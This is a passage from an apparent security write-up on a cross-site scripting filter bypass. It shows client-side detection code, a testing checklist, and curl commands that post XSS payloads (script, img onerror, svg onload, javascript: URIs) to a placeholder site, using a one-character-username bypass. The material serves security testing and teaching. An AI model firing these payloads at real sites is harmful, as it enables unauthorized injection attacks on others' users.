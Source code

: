 ```javascript
        e.preventDefault();
        alert('Potential security issue detected. Please modify your input.');
        
        // Log attempt (send to server)
        fetch('/security-log', {
            method: 'POST',
            headers: {'Content-Type': 'application/json'},
            body: JSON.stringify({
                type: 'xss_attempt',
                username: username,
                feedback: feedback,
                timestamp: new Date().toISOString()
            })
        });
    }
});
```

---

## 🛡️ Testing & Validation

### 🔧 Security Assessment Checklist
- [ ] Test XSS injection in all input fields
- [ ] Verify consistent input validation across all code paths
- [ ] Check for length-based or conditional filtering bypasses
- [ ] Validate Content Security Policy implementation
- [ ] Test various XSS payload encodings and obfuscation
- [ ] Assess output encoding in different contexts (HTML, JavaScript, CSS)

### 🎯 Testing Methodology
```bash
# XSS Testing with different username lengths
# Test 1: Single character bypass
curl -X POST http://target-site.com/feedback \
  -d "username=a&feedback=<script>alert('XSS')</script>"

# Test 2: Multiple character (should be filtered)
curl -X POST http://target-site.com/feedback \
  -d "username=test&feedback=<script>alert('XSS')</script>"

# Test 3: Various XSS payloads
payloads=(
  "<script>alert('XSS')</script>"
  "<img src=x onerror=alert('XSS')>"
  "<svg onload=alert('XSS')>"
  "javascript:alert('XSS')"
  "<iframe src='javascript:alert(\"XSS\")'></iframe>"
)

for payload in "${payloads[@]}"; do
  curl -X POST http://target-site.com/feedback \
    -d "username=a&feedback=${payload}"
done
```
